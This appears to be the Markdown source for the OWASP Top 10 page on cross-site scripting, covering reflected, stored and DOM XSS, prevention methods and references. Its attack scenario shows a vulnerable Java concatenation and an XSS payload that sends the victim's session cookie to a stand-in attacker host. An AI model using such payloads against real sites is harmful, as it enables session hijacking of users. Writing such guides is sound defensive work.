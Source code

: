 ```yaml
---

title: OwASP Top 10, A7 - Cross-Site Scripting (XSS)
layout: col-sidebar
top-ten: 7
exploitability: 3
prevalance: 3
detectability: 3
techincal: 2
og-summary: This is the summar that goes in og meta tags so when shared on social/slack it has a customized summary of the page as opposed to random front content

---
```


## A7 - Cross-Site Scripting (XSS)

<p> <i class="fa fa-exclamation-circle"  style="color:orange; padding-right: 5px"></i>Exploitablity
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Prevalence
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Detectability
  <i class="fa fa-skull-crossbones" style="color:black; padding-left: 20px; padding-right: 5px"></i>Technnical
</p>

***
The most common Cross-Site Scripting vulnerability is where the application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.

- **Threat Agent / Attack Vectors**: Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
- **Security Weakness**: XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br/>Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
- **Impacts**: The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
 
### Is the Applicaton Vulnerable
There are three forms of XSS, usually targeting users' browsers:
1. Reflected XSS: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
2. Stored XSS: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
3. DOM XSS: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

### How to Prevent
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The <u>[[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'XSS Prevention']]</u> has details on the required data escaping techniques.
- Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the <u>[[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'DOM based XSS Prevention']].
- Enabling a <u>[https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP Content Security Policy (CSP)]</u> as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

### Sample Attack Scenarios

Scenario #1: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
(String) page += "<input name='creditcard' type='TEXT'<br>value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:

```
'><script>document.location=<br/>'<nowiki>h</nowiki>ttp://www.attacker.com/cgi-bin/cookie.cgi?
```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Note: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

### References

OWASP
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Encode Data]]
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Validate Data]]
- [[:Category:OWASP_Application_Security_Verification_Standard_Project|OWASP Application Security Verification Standard: V5]]
- [[Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)|OWASP Testing Guide: Testing for Reflected XSS]]
- [[Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)|OWASP Testing Guide: Testing for Stored XSS]]
- [[Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)|OWASP Testing Guide: Testing for DOM XSS]]
- [[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet: XSS Prevention]]
- [[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet: DOM based XSS Prevention]]
- [[XSS_Filter_Evasion_Cheat_Sheet|OWASP Cheat Sheet: XSS Filter Evasion]]
- [[OWASP_Java_Encoder_Project|OWASP Java Encoder Project]]

External
- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
